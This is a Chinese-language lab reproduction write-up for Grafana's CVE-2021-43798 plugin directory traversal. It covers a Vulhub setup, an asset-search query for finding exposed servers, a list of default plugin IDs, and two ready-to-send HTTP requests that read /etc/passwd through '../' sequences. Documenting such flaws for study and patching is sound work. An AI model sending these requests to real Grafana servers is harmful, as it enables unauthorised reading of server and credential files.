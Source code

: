 # Grafana 8.x 插件模块目录穿越漏洞 CVE-2021-43798

## 漏洞描述

Grafana 是一个开源的度量分析与可视化套件。在 2021 年 12 月，推特用户@j0v 发表了他发现的一个 0day，攻击者利用这个漏洞可以读取服务器上的任意文件。

参考链接：

- https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/
- https://twitter.com/hacker_/status/1467880514489044993
- https://nosec.org/home/detail/4914.html
- https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw
- https://codeload.github.com/grafana/grafana/zip/refs/tags/v8.3.0 source code

## 漏洞影响

```
Grafana 8.x
```

## 网络测绘

```
app="Grafana_Labs-公司产品"
```

## 环境搭建

Vulhub 执行如下命令启动一个 Grafana 8.2.6 版本服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:3000` 即可查看登录页面，但是这个漏洞是无需用户权限的。

![](images/Grafana%208.x%20插件模块目录穿越漏洞%20CVE-2021-43798/image-20241105154049299.png)

## 漏洞复现

这个漏洞出现在插件模块中，这个模块支持用户访问插件目录下的文件，但因为没有对文件名进行限制，攻击者可以利用 `../` 的方式穿越目录，读取到服务器上的任意文件。

利用这个漏洞前，我们需要先获取到一个已安装的插件 id，比如常见的有：

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

再发送如下数据包，读取任意文件：

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

![](images/Grafana%208.x%20插件模块目录穿越漏洞%20CVE-2021-43798/image-20241105154903522.png)

也可以将其中的 `alertlist` 换成其他合法的插件 id，例如 `graph`：

```
GET /public/plugins/graph/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

![](images/Grafana%208.x%20插件模块目录穿越漏洞%20CVE-2021-43798/image-20241105154832584.png)
